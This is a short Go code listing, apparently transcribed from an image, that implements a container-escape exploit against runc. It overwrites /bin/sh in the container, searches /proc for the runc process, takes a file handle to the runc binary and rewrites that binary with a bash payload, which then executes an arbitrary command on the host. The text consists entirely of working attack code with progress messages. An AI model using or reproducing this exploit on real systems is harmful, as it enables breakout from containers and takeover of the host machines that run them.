 ```golang
func main() {
	// This is the line of shell commands that will execute on the host
	var payload = "#!/bin/bash \n" + shellCmd
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			fmt.Println("[+] The command executed is" + payload)
			writeHandle.Write([]byte(payload))
			return
		}
	}
```